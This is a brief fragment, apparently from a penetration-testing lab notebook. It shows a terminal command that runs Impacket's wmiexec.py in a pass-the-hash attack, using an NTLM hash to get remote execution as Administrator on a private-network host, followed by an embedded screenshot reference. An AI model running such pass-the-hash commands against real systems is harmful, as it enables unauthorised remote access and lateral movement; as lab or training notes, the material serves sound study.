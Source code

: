 



┌──(hashimoto㉿LEGION)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:124cc8a328582c160bd74b7afc8a2b7e Administrator@192.168.208.136


![[Pasted image 20240131122047.png]]